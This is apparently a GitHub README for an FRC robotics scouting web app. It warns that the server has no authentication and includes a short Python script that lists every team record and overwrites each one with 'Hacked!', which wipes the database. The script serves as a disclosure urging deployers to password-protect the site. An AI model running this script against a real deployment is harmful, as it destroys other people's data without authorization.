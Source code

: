 # FRCScoutingWebApp
Server ready scouting app. I'd recommend you password protect the domain (It's pretty easy to wipe out all server data by modifying scripts).

Incase you wanted to know how to wipe the database. I'd suggest you password protect because a simple script like this will wipe it all out.

```python
import requests
import json
import sys

url = str(sys.argv[1])
url1 = "http://"+url+"/php/getAllTeams.php"
url2 = "http://"+url+"/php/setTeamInfo.php?q="
text = requests.get(url1).text
text = text.replace(",,", ",").replace("[,", "[").replace(",]", "]")

while text.find(",,") != -1 or text.find("[,") != -1 or text.find(",]") != -1:
    text = text.replace(",,", ",").replace("[,", "[").replace(",]", "]")

data = json.loads(text)

for i in data:
    requests.post(url2+str(i["Number"]), data={'data':'Hacked!'})

```
